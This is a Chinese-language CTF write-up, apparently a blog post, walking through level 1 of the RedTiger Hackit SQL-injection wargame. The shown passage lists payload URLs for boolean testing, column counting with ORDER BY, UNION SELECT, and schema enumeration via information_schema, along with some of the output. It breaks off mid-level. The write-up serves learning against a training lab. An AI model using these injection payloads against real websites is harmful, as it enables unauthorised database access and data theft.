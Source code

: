 ```yaml
---
title: RedTiger's Hackit writeup
date: 2018-04-04 08:52:34
tags:
- sql注入
categories:
- web安全
- sql
- sql注入
---
```


网上很多关于RedTiger的writeup已失效，所以重新整理下，算是小白入门。


# [RedTiger](http://redtiger.labs.overthewire.org)

## level1

点击Category：1后，网址以GET方式传递`cat`参数。
- 利用`and 1=1`,`and 1=2`进行判断是否存在注入点：
```
# 正常 
https://redtiger.labs.overthewire.org/level1.php?cat=1 and 1=1 
# 运行异常
https://redtiger.labs.overthewire.org/level1.php?cat=1 and 1=2 
```

- 存在数字型注入，利用order by 测试出存在4个列： 
```
# 正常 
https://redtiger.labs.overthewire.org/level1.php?cat=1 order by 4 
# 运行异常
https://redtiger.labs.overthewire.org/level1.php?cat=1 order by 5 
```

- 构造union联合查询语句，找回显： 
```
https://redtiger.labs.overthewire.org/level1.php?cat=1 union select 1,2,3,4 
```
发现3,4 处存在回显。

我这里继续爆库、爆表、爆字段等操作，发现异常。
```
https://redtiger.labs.overthewire.org/level1.php?cat=1 union select 1,2,version(), database()
```
回显

		5.5.57-0+deb8u1
		hackit
```
https://redtiger.labs.overthewire.org/level1.php?cat=1 union select 1,2,3,group_concat(table_name) from information_schema.tables where table_schema=database()
https://redtiger.labs.overthewire.org/level1.php?cat=1 union select 1,2,3,group_concat(column_name) from information_schema.columns where table_name='level1_users'
```
回显
